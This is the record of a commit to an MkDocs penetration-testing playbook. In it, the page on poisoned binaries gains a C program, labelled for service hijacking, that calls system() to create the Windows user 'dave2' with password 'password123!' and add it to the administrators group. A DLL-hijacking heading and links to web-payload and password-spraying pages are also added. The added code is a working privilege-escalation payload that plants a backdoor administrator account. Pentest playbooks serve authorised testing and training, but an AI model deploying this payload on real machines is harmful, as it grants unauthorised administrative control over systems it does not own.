

Before and after one commit to stafford-m/pt-playbook, an MkDocs documentation site: the page built from docs/resources/poisoned_bin.md, in a window 1280 px wide and 1181 px high. Shown: the whole window at 89% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
made better lol

````diff
--- a/docs/resources/adduserdll.md
+++ b/docs/resources/poisoned_bin.md
@@ -1,6 +1,26 @@
-# Poisoned DLL
+# Poisoned Binaries
 
-## adduser.cpp
+## adduser.c
+
+For Service Hijacking
+
+```text
+#include <stdlib.h>
+
+int main ()
+{
+  int i;
+
+  i = system ("net user dave2 password123! /add");
+  i = system ("net localgroup administrators dave2 /add");
+
+  return 0;
+}
+```
+
+## adduser.dll
+
+For DLL Hijacking
 
 ```text
 #include <stdlib.h>
--- a/mkdocs.yml
+++ b/mkdocs.yml
@@ -55,8 +55,8 @@ nav:
       - activedirectory/silvertickets.md
       - activedirectory/dcsync.md
   - Resources:
-      - resources/adduserexe.md
-      - resources/adduserdll.md
+      - resources/poisoned_bin.md
+      - resources/web_payloads.md
       - resources/spraypasswords.md
   - Web App Attacks:
       - web/dirtraversal.md
````
Also changed, not shown: docs/resources/adduserexe.md (deleted, +0 -17 lines), docs/resources/web_payloads.md (added, +29 -0 lines), docs/web/lfi.md (+1 -1 lines), docs/web/phpwrappers.md (+5 -0 lines), docs/resources/payloads.md (deleted), docs/resources/phpwebshell.md (deleted), docs/resources/pwshrshell.md (deleted), docs/resources/simplebackdoor.md (deleted).
